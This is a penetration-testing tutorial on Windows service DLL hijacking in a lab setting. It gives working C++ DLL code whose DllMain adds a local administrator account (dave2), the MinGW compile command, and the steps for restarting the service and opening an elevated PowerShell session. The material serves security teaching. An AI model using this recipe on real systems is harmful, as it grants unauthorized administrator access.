






---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Service DLL Hijacking

Replacing the binary of a service is a very effective way to attempt privilege escalation on Windows systems. However, because a user doesn't often have permissions to replace these binaries, a more advanced way of abusing Windows services will be needed. DLL hijacking will serve this purpose.

A [DLL](../../../core-concepts/dynamic-link-libraries.md) is a library that contains code and data that can be used by more than one program at the same time. They provide much of the functionality of the Windows operating system (and its applications).&#x20;

There are a few techniques one can use to exploit how DLLs work on Windows, and they can often be an effective way of elevating privileges:

One method is similar to the privilege escalation vector performed in the previous section. Instead of overwriting the binary, the attacker merely overwrites a DLL the service binary uses. However, the service may not work as expected because the actual DLL functionality is missing. In most cases, this would still lead to code execution of the DLL's code and then, for example, to the creation of a new local administrative user. Though because of the missing functionality it could also cause the application to crash after the execution.

Another method is to hijack the [DLL search order](../../../core-concepts/dynamic-link-libraries.md#dll-search-order). By default, all current Windows versions have [Safe DLL Search Mode](../../../core-concepts/dynamic-link-libraries.md#factors) enabled.&#x20;

This example will leverage a machine CLIENTWK220 through which the attacker is assumed to have access to a compromised user account (`steve`) via RDP.

As in previous examples, once connected to the machine the [running services are first enumerated](service-binary-hijacking.md#check-running-services):

```powershell
PS C:\Users\steve> Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

Name                   State   PathName
----                   -----   --------
Apache2.4              Running "C:\xampp\apache\bin\httpd.exe" -k runservice
....
BetaService            Running C:\Users\steve\Documents\BetaServ.exe
...
```

In this instance the service named `BetaService` is of interest to the attacker. It appears to be running in a folder the attacker has permission to modify. Upon further inspection using the `Get-Acl` cmdlet as [seen in another example](service-binary-hijacking.md#get-acl) it turns out steve only has Read and Execute permissions and thus cannot replace the binary:

```powershell
PS C:\Users\steve> (Get-Acl -Path C:\Users\steve\Documents\BetaServ.exe).Access

...

FileSystemRights  : ReadAndExecute, Synchronize
AccessControlType : Allow
IdentityReference : CLIENTWK220\steve
IsInherited       : False
InheritanceFlags  : None
PropagationFlags  : None
```

## Identifying DLLs Loaded by a Service

In order to hijack a service's DLLs, the attacker first must find the DLLs being loaded by the service. The goal is to identify all DLLs loaded by BetaService as well as detect missing ones. Once a list of DLLs used by the service binary has been acquired, the attacker can check their permissions and if they can be replaced with a malicious DLL.

Alternatively, if it is determined that a DLL is missing, one could try to provide their own (malicious) DLL by adhering to the DLL search order.

### Process Monitor

[Process Monitor](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) (sometimes referred to as _ProcMon_ or _Procmon_) is an advanced monitoring tool for Windows that shows real-time file system, Registry and process/thread activity. It combines the features of two legacy Sysinternals utilities, _Filemon_ and _Regmon_, and adds an extensive list of enhancements including rich and non-destructive filtering, comprehensive event properties such as session IDs and user names, reliable process information, full thread stacks with integrated symbol support for each operation, simultaneous logging to a file, and much more.

Unfortunately **Administrative privileges are required** to start Process Monitor and collect this data.&#x20;

The **standard procedure in a penetration test would be to copy the service binary to a local machine**. Once on the local machine the tester could install the service locally and user their Admin privileges to start Process Monitor.

For this example (and the sake of simplicity) the attacker will use the `backupadmin` account (also assumed to be compromised) to start Process Monitor and collect the data on the target. When first opened ProcMon looks like this:

<figure><figcaption><p>Process Monitor when opened</p></figcaption></figure>

As shown in the highlighted section of the screenshot, there are a lot of events. For this example only items related to BetaService are of interest. In order to limit results to things pertaining to that process use the Filter Menu (entered by clicking the filter encircled in green in the screenshot):

<figure><figcaption></figcaption></figure>

The dropdown (shown in blue in the screenshot) can be set to `Process Name` and filtered down to `BetaServ.exe`. Once set up the filter is enabled by clicking Add (yellow box) and then Ok. Once the filter is set up, the service, `BetaService`, can be restarted using the [Restart-Service](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.management/restart-service?view=powershell-7.4) cmdlet:

```powershell
PS C:\Users\steve> Restart-Service BetaService
WARNING: Waiting for service 'BetaService (BetaService)' to start...
```

This step is not strictly necessary but usually an application does a lot of work at startup and therefore restarting the service will likely cause a flurry of activity from the service when it restarts. This will allow the attacker to see what calls are made by the process when it starts:

<figure><figcaption><p>Process Monitor filtered to BetaServ.exe</p></figcaption></figure>

The Operation column (header in green) shows what actions are being taken. In this particular case there seem to be several [CreateFile](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea) operations (one of which is highlighted in red). Per the WinAPI documentation, the `CreateFile` function can be used to create or open a file. This seems promising for DLL hijacking.

The output can be further filtered to just `CreateFile` operations from the `BetaServ.exe` process. Once refined the output can be examined:

<figure><figcaption></figcaption></figure>

Of particular interest are the items highlighted in red. It seems the application attempted to load a DLL (`myDLL.dll`) from multiple paths but failed to do so every time due to a `NAME NOT FOUND` error which indicates the file does not exist.&#x20;

It is worth noting that the consecutive function calls follow the ["normal" DLL search order](../../../core-concepts/dynamic-link-libraries.md#general-search-order). It starts in the directory where the application is loaded and ends in the PATH directories:


```powershell
PS C:\Users\steve> $env:path
C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;C:\Windows\System32\OpenSSH\;C:\Users\steve\AppData\Local\Microsoft\WindowsApps;
```


## Creating a Malicious DLL

Recall from the [DLL section](../../../core-concepts/dynamic-link-libraries.md#dll-entry-point) that when a DLL is loaded an entry point function (called `DllMain`) will be called (assuming the function is defined as it is technically optional).&#x20;

Microsoft provides this example of a DLL entry function:

```cpp
BOOL WINAPI DllMain(
    HINSTANCE hinstDLL,  // handle to DLL module
    DWORD fdwReason,     // reason for calling function
    LPVOID lpvReserved )  // reserved
{
    // Perform actions based on the reason for calling.
    switch( fdwReason ) 
    { 
        case DLL_PROCESS_ATTACH:
            // Initialize once for each new process.
            // Return FALSE to fail DLL load.
            break;

        case DLL_THREAD_ATTACH:
            // Do thread-specific initialization.
            break;

        case DLL_THREAD_DETACH:
            // Do thread-specific cleanup.
            break;

        case DLL_PROCESS_DETACH:
        
            if (lpvReserved != nullptr)
            {
                break; // do not do cleanup if process termination scenario
            }
            
            // Perform any necessary cleanup.
            break;
    }
    
    return TRUE;  // Successful DLL_PROCESS_ATTACH.
}
```

Given that in this instance the DLL is being loaded by a process, the `DLL_PROCESS_ATTACH` state will be the one used here.

This example will use similar commands to an [earlier example](service-binary-hijacking.md#replacing-the-binary) in order to create a new local administrator user (`dave2:password123!`):


```cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
            int i;
            i = system ("net user dave2 password123! /add");
            i = system ("net localgroup administrators dave2 /add");
            break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
            break;
        case DLL_THREAD_DETACH: // A thread exits normally.
            break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
            break;
    }
    return TRUE;
}
```


This will then be complied (on the attacker's machine) into a DLL via [MinGW-64](https://www.mingw-w64.org/):

```bash
x86_64-w64-mingw32-gcc myDll.cpp --shared -o myDLL.dll
```

From here the attacker needs to transfer it to the victim machine's `C:\Users\steve\Documents` directory (the service binary's directory). This can be done via HTTP or RDP as the attacker sees fit.&#x20;

### Executing the DLL

Once the malicious DLL has been placed in the appropriate directory the service must be restarted in order to force it to reload its DLLs and import the malicious one:

```powershell
PS C:\Users\steve> Restart-Service BetaService
WARNING: Waiting for service 'BetaService (BetaService)' to start...
```

Process Monitor shows that upon restart the service successfully accessed `C:\Users\steve\Documents\myDll.dll` (highlighted in green):

<figure><figcaption><p>Process Monitor shows BetaServ.exe successfully loaded the malicious DLL</p></figcaption></figure>

Checking the local users after the restart shows that `dave2` was indeed created and included in the Administrators group:

```powershell
PS C:\Users\steve> net user

User accounts for \\CLIENTWK220

-------------------------------------------------------------------------------
Administrator            BackupAdmin              dave
dave2                    daveadmin                DefaultAccount
Guest                    offsec                   steve
WDAGUtilityAccount
The command completed successfully.

PS C:\Users\steve> net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
BackupAdmin
dave2
daveadmin
offsec
The command completed successfully.
```

## Launching Elevated Shell

From here it is possible to launch an elevated PowerShell session as `dave2` (even without signing in as that user). First the [Runas tool](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525\(v=ws.11\)) can be used from `steve`'s session to launch a new PowerShell session as `dave2`:

```powershell
PS C:\Users\steve> runas /user:dave2 powershell
```

This launches a new PowerShell session but unfortunately this is still not an administrative session (though it may appear as one at first):

```powershell
PS C:\Windows\system32> whoami
clientwk220\dave2

PS C:\Windows\system32> dir C:\Users\steve
dir : Access to the path 'C:\Users\steve' is denied.
At line:1 char:1
+ dir C:\Users\steve
+ ~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Users\steve:String) [Get-ChildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
```

Based on being in the `system32` folder it may seem the session is Administrator-level, however, upon attempting to list files in another user's home directory (which should be possible) a permission denied error appears.&#x20;

[Start-Process](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.management/start-process?view=powershell-7.4) can be used to start a new session with Administrator privileges by using the `-Verb Runas` flag as shown in [this example](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.management/start-process?view=powershell-7.4#example-5-start-powershell-as-an-administrator). This flag causes another PowerShell window to open with an administrative session:

```powershell
PS C:\Windows\system32> Start-Process PowerShell -Verb RunAs
```

Once the new window opens, the attacker can use that for elevated permissions. Attempting to enumerate another user's home directory in this new shell is successful (proving elevated permissions):

```powershell
PS C:\Windows\system32> whoami
clientwk220\dave2
PS C:\Windows\system32> dir C:\Users\steve\


    Directory: C:\Users\steve


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-r---         12/6/2022   2:09 AM                Contacts
...
d-r---          7/4/2022  12:58 AM                Videos
```

This screenshot shows the various prompts ending in the administrative one:

<figure><figcaption><p>Various PowerShell windows used in escalation</p></figcaption></figure>

1. The session for user `steve` that was used to create the initial shell for `dave2` (terminal 2 in screenshot)
2. The session for user `dave2` that did not have elevated privileges
3. The elevated session for user `dave2`

Other options for the malicious DLL exist. For example, instead of creating a new user it could simply open a reverse shell (as the user starting the service). Regardless of how the malicious DLL is intended to gain elevated privileges, the rough steps for exploitation follow this same pattern.
